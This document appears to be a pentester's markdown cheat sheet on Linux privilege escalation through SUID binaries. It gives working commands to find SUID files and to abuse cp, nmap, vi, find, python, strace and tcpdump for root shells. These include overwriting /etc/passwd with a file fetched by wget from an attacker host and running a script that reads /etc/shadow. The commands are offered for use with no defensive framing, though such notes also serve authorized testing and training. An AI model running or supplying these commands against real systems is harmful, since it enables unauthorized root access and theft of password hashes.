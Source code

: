 Refer: [https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

## SUID
### Find SUID binaries

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

### Exploitation SUID
Cp
```bash
$cp /etc/passwd /var/www/html
#Change pass or add new user to /var/www/html
#(python3 -> import crypt -> crypt.crypt(‘newpass’))
$python -m http.server 80
$cd /tmp
$wget //$IP/passwd
$cp passwd /etc/passwd
```
Nmap
```bash
$ nmap --interactive
nmap> !sh
```
```bash
#Another way below (if nmap doesn’t have interactive mode):
$ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse
$ sudo nmap --script=/tmp/shell.nse
```
Vi
```bash
$ vi
:!sh
```
Find
```bash
$ find / home -exec sh -i \;
```
```bash
#Or exec any command:
$touch file
$find file -exec "whoami" \;
```
Python
```bash
$ python -c ‘import pty;pty.spawn(“/bin/sh”)’
```
Strace
```bash
$ strace -o /dev/null /bin/sh
```
Tcpdump
```bash
$ echo $’id\ncat /etc/shadow’ > /tmp/.shell
$ chmod +x /tmp/.shell
$ tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root
```
